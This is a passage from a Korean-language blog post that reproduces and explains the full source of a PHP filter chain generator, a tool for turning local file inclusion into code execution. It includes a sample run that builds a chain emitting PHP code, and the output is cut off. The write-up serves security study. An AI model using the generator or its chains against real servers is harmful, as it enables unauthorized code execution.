# No need to guess a valid filename anymore
file_to_use = "php://temp"

conversions = {
    '0': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2',
    '1': 'convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4',
    '2': 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921',
    '3': 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE',
    '4': 'convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE',
    '5': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.8859_3.UCS2',
    '6': 'convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.CSIBM943.UCS4|convert.iconv.IBM866.UCS-2',
    '7': 'convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4',
    '8': 'convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
    '9': 'convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB',
    'A': 'convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213',
    'a': 'convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE',
    'B': 'convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000',
    'b': 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE',
    'C': 'convert.iconv.UTF8.CSISO2022KR',
    'c': 'convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2',
    'D': 'convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213',
    'd': 'convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5',
    'E': 'convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT',
    'e': 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UTF16.EUC-JP-MS|convert.iconv.ISO-8859-1.ISO_6937',
    'F': 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB',
    'f': 'convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213',
    'g': 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8',
    'G': 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90',
    'H': 'convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213',
    'h': 'convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE',
    'I': 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213',
    'i': 'convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000',
    'J': 'convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4',
    'j': 'convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16',
    'K': 'convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE',
    'k': 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2',
    'L': 'convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.R9.ISO6937|convert.iconv.OSF00010100.UHC',
    'l': 'convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE',
    'M':'convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T',
    'm':'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949',
    'N': 'convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4',
    'n': 'convert.iconv.ISO88594.UTF16|convert.iconv.IBM5347.UCS4|convert.iconv.UTF32BE.MS936|convert.iconv.OSF00010004.T.61',
    'O': 'convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775',
    'o': 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE',
    'P': 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB',
    'p': 'convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4',
    'q': 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.GBK.CP932|convert.iconv.BIG5.UCS2',
    'Q': 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2',
    'R': 'convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4',
    'r': 'convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.ISO-IR-99.UCS-2BE|convert.iconv.L4.OSF00010101',
    'S': 'convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS',
    's': 'convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90',
    'T': 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103',
    't': 'convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS',
    'U': 'convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943',
    'u': 'convert.iconv.CP1162.UTF32|convert.iconv.L4.T.61',
    'V': 'convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB',
    'v': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.ISO-8859-14.UCS2',
    'W': 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936',
    'w': 'convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE',
    'X': 'convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932',
    'x': 'convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS',
    'Y': 'convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361',
    'y': 'convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT',
    'Z': 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16',
    'z': 'convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937',
    '/': 'convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4',
    '+': 'convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157',
    '=': ''
}

def generate_filter_chain(chain, debug_base64 = False):

    encoded_chain = chain
    # generate some garbage base64
    filters = "convert.iconv.UTF8.CSISO2022KR|"
    filters += "convert.base64-encode|"
    # make sure to get rid of any equal signs in both the string we just generated and the rest of the file
    filters += "convert.iconv.UTF8.UTF7|"


    for c in encoded_chain[::-1]:
        filters += conversions[c] + "|"
        # decode and reencode to get rid of everything that isn't valid base64
        filters += "convert.base64-decode|"
        filters += "convert.base64-encode|"
        # get rid of equal signs
        filters += "convert.iconv.UTF8.UTF7|"
    if not debug_base64:
        # don't add the decode while debugging chains
        filters += "convert.base64-decode"

    final_payload = f"php://filter/{filters}/resource={file_to_use}"
    return final_payload

def main():

    # Parsing command line arguments
    parser = argparse.ArgumentParser(description="PHP filter chain generator.")

    parser.add_argument("--chain", help="Content you want to generate. (you will maybe need to pad with spaces for your payload to work)", required=False)
    parser.add_argument("--rawbase64", help="The base64 value you want to test, the chain will be printed as base64 by PHP, useful to debug.", required=False)
    args = parser.parse_args()
    if args.chain is not None:
        chain = args.chain.encode('utf-8')
        base64_value = base64.b64encode(chain).decode('utf-8').replace("=", "")
        chain = generate_filter_chain(base64_value)
        print("[+] The following gadget chain will generate the following code : {} (base64 value: {})".format(args.chain, base64_value))
        print(chain)
    if args.rawbase64 is not None:
        rawbase64 = args.rawbase64.replace("=", "")
        match = re.search("^([A-Za-z0-9+/])*$", rawbase64)
        if (match):
            chain = generate_filter_chain(rawbase64, True)
            print(chain)
        else:
            print ("[-] Base64 string required.")
            exit(1)

if __name__ == "__main__":
    main()
```

위 코드는 PHP Filter Chain Generator의 전체적인 소스코드입니다. 부분별로 분석을 진행해보겠습니다.

먼저 Synacktiv에서 직접 생성한 Base64 Table은 아래와 같습니다.

```python
conversions = {
    '0': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2',
    '1': 'convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4',
    '2': 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921',
    '3': 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE',
    '4': 'convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE',
    '5': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.8859_3.UCS2',
    '6': 'convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.CSIBM943.UCS4|convert.iconv.IBM866.UCS-2',
    '7': 'convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4',
    '8': 'convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
    '9': 'convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB',
    'A': 'convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213',
    'a': 'convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE',
    'B': 'convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000',
    'b': 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE',
    'C': 'convert.iconv.UTF8.CSISO2022KR',
    'c': 'convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2',
    'D': 'convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213',
    'd': 'convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5',
    'E': 'convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT',
    'e': 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UTF16.EUC-JP-MS|convert.iconv.ISO-8859-1.ISO_6937',
    'F': 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB',
    'f': 'convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213',
    'g': 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8',
    'G': 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90',
    'H': 'convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213',
    'h': 'convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE',
    'I': 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213',
    'i': 'convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000',
    'J': 'convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4',
    'j': 'convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16',
    'K': 'convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE',
    'k': 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2',
    'L': 'convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.R9.ISO6937|convert.iconv.OSF00010100.UHC',
    'l': 'convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE',
    'M':'convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T',
    'm':'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949',
    'N': 'convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4',
    'n': 'convert.iconv.ISO88594.UTF16|convert.iconv.IBM5347.UCS4|convert.iconv.UTF32BE.MS936|convert.iconv.OSF00010004.T.61',
    'O': 'convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775',
    'o': 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE',
    'P': 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB',
    'p': 'convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4',
    'q': 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.GBK.CP932|convert.iconv.BIG5.UCS2',
    'Q': 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2',
    'R': 'convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4',
    'r': 'convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.ISO-IR-99.UCS-2BE|convert.iconv.L4.OSF00010101',
    'S': 'convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS',
    's': 'convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90',
    'T': 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103',
    't': 'convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS',
    'U': 'convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943',
    'u': 'convert.iconv.CP1162.UTF32|convert.iconv.L4.T.61',
    'V': 'convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB',
    'v': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.ISO-8859-14.UCS2',
    'W': 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936',
    'w': 'convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE',
    'X': 'convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932',
    'x': 'convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS',
    'Y': 'convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361',
    'y': 'convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT',
    'Z': 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16',
    'z': 'convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937',
    '/': 'convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4',
    '+': 'convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157',
    '=': ''
}
```

위와 같이 특정 문자별로 어떠한 Filter Chain을 사용하면 생성되는지 명시되어있습니다. 실재로 해당 체인을 직접 실행해본다면 매핑된 문자가 실재로 나오게 되는것을 알 수 있습니다.

이와 같은 인코딩 체인이 저러한 문자를 생성한다는 것은 직접 BruteForce를 통해 아마 체인 테이블을 생성한것이라 생각이 듭니다. (7000천개가 넘는 인코딩을 전부 분석하는것은 굉장히 시간 소모가 크기 때문)

해당 테이블은 무결성을 해치지 않고, 기존의 데이터를 합치더라도 변형하지 않기 떄문에, 굉장히 잘 생성된 base64 table이라고 생각이듭니다.

그 다음으로 `--chain "char"` 명령을 받았을 때, 입력받은 문자를 어떻게 처리하는지 확인해보겠습니다.

```py
args = parser.parse_args()
if args.chain is not None:
    chain = args.chain.encode('utf-8')
    base64_value = base64.b64encode(chain).decode('utf-8').replace("=", "")
    chain = generate_filter_chain(base64_value)
    print("[+] The following gadget chain will generate the following code : {} (base64 value: {})".format(args.chain, base64_value))
    print(chain)
```

위와 같이 "char" 입력받은 문자를 base64 인코딩을 진행한 후 등호를 제거한 다음, generate_filter_chain의 인자로 넘기는 것을 확인할 수 있습니다.

초기에 base64 encode를 진행하여 값을 넘기는 이유는, filter chain 인코딩 과정에서 문제가 발생하여도 최종적으로 base64-decode하게되면 오류를 무시하고 decode를 수행하기 때문에 진행한 것으로 예상됩니다.

이렇게 넘겨진 값은 generate_filter_chain 함수로 넘어가게됩니다.

```py
def generate_filter_chain(chain, debug_base64 = False):

    encoded_chain = chain
    # generate some garbage base64
    filters = "convert.iconv.UTF8.CSISO2022KR|"
    filters += "convert.base64-encode|"
    # make sure to get rid of any equal signs in both the string we just generated and the rest of the file
    filters += "convert.iconv.UTF8.UTF7|"

    for c in encoded_chain[::-1]:
        filters += conversions[c] + "|"
        # decode and reencode to get rid of everything that isn't valid base64
        filters += "convert.base64-decode|"
        filters += "convert.base64-encode|"
        # get rid of equal signs
        filters += "convert.iconv.UTF8.UTF7|"
    if not debug_base64:
        # don't add the decode while debugging chains
        filters += "convert.base64-decode"

    final_payload = f"php://filter/{filters}/resource={file_to_use}"
    return final_payload
```

여기서 받은 chain 파라미터를 encoded_chain에 넣어주고, filter를 생성하는것을 확인할 수 있습니다.

가장 초기 문자가 필요하기 때문에 ISO-2022-KR를 사용해 "$)C" 문자를 생성하게됩니다, 그 이후 base64-encode를 통해 해당 값을 encode합니다.

그리고 iconv php filter를 사용해서 base64 encode한 문자를 UTF7로 인코딩을 진행해 등호를 제거합니다.

초기 값 생성이 끝나면 초기에 정의한 php filter chain base64 table을 사용해 1문자씩 일치하는 filter chain을 찾아 추가하는 것을 볼 수 있습니다. 여기서 유심히 볼 2가지가 존재합니다. 

1. encoded_chain 문자를 역순으로 넣어주는 이유
2. 매핑된 php filter chain에서 base64-decode, base64-encode를 진행하는 이유

#### encoded_chain 문자를 역순으로 넣어주는 이유

encoded_chain 문자를 역순으로 넣어주는 이유는 filter chain을 추가하고 해석할때 오른쪽부터 해석하는 것이 아닌 왼쪽부터 해석하기 때문입니다.

```
base64_encode("a") -> "YQ"

1. base64_chain_table["Y"]
2. base64_chain_table["Q"]

 <-------

base64_chain_table["Q"] + base64_chain_table["Y"]
```

이와 같이 하는 것이 올바른것으로 생각할 수 있지만, UTF16(유니코드) 인코딩이나 다른 인코딩을 진행할 경우 값이 오른쪽부터 붙는것이 아닌 왼쪽부터 값을 붙이기 때문에, 반대로 진행해야합니다.

위와 같은 경우는 왼쪽부터 값이 붙는것을 이용하면 Y가 먼저 filter chain 한 값으로 붙고 그 다음에 Q가 filter chin한 값이 붙기 때문에 최종적으로 "QY" 처럼 되어버립니다.

```
base64_encode("a") -> reverse("YQ") -> "QY"

1. base64_chain_table["Q"]
2. base64_chain_table["Y"]

 <-------

base64_chain_table["Y"] + base64_chain_table["Q"]
```

위와 같이 Q를 filter chain 한 값을 먼저 넣고 그 다음에 Y를 넣습니다.

그러면 "Q"의 필터 체인이 먼저 붙게 되고, 그 이후에 왼쪽부터 값이 붙으니, "Y" 필터 체인 값이 붙게 됩니다, 결과적으로 "YQ"가 됩니다. 

#### 매핑된 php filter chain에서 base64-decode, base64-encode를 진행하는 이유

특정 문자와 php filter chain이 매핑되어 filter 변수에 값이 추가되면 추가적으로 아래의 코드가 더 추가됩니다.

```py
filters += conversions[c] + "|"
# decode and reencode to get rid of everything that isn't valid base64
filters += "convert.base64-decode|"
filters += "convert.base64-encode|"
# get rid of equal signs
filters += "convert.iconv.UTF8.UTF7|"
```

여기서 base64-decode를 진행하는 이유는 쓰레기값과 정크 문자를 제거하고 decode하기 위함입니다.

그런데, base64-encode는 왜 진행하는건지 의문이 듭니다. 일단 먼저 정크 문자를 제거한 base64 값은 ">> ??"와 같은 식의 base64 테이블에 명시된 문자와 다른 이상한 문자가 나오게 됩니다.

이 이유는, filter chain을 진행할때 바라보는 값이 base64-decode된 값이 아니라 base64-enocode된 값이기 때문입니다. 

실제로 ">> ??"와 같이 생성된 문자를 다시 base64-encode 해보게 되면 base64 테이블에 명시된 문자가 나오게 됩니다.

결국, 최종적으로 이러한 base64 encode된 값이 chain으로 합쳐지고 결합하여 최종적으로 base64-decode 되었을때, 의도한 문자가 나와야하기 때문입니다.

추기로, UTF7 인코딩을 진행하는 이유는 base64-encode과정에서 생성된 등호를 제거하기 위한 작업입니다.

예시를 들어보자면 아래와 같습니다. 

    1. `--chain "a"` -> encoded_chain == base64_encode("a") // YQ
    2. base64_chain_table["Q"] == "convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode" ==> "?? =>" // base64 table에 없는 이상한 문자
    3. convert.iconv.UTF8.CSISO2022KR|...|convert.iconv.MIK.UCS2|base64|convert.base64-decode|convert.base64-encode ==> "Q?????" // Q 의도한 문자 나옴

##### --------------------------------

다시 코드로 돌아와서 계속 분석을 진행해보겠습니다.

```py
def generate_filter_chain(chain, debug_base64 = False):
    ... 

    for c in encoded_chain[::-1]:
        filters += conversions[c] + "|"
        # decode and reencode to get rid of everything that isn't valid base64
        filters += "convert.base64-decode|"
        filters += "convert.base64-encode|"
        # get rid of equal signs
        filters += "convert.iconv.UTF8.UTF7|"

    final_payload = f"php://filter/{filters}/resource=php://temp"

    return final_payload
```

결국에는 `generate_filter_chain` 함수는 이렇게 체이닝된 filter를 최종적으로 base64-decode 진행하여 처음에 `--chain "char"`에 넣었던 원하는 문자를 생성해주게 됩니다, 또한 resoure에는 쓰기/읽기 권한이 있는 tmp 파일에 접근한 것을 볼 수 있습니다.

이는 `LFI2RCE Dive deeper into how techniques work` 색션에서 설명한 원리에 전부 기반하여 만들어지는 것 임을 알 수 있습니다.

실제로 앞서 설명하였듯이 해당 도구를 사용하게 되면 의도한 문자가 정확하게 나오는 것을 확인할 수 있습니다. 

```sh
$ python3 php_filter_chain_generator.py --chain '<?php phpinfo(); ?>  '
[+] The following gadget chain will generate the following code : <?php phpinfo(); ?>   (base64 value: PD9waHAgcGhwaW5mbygpOyA/PiAg)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-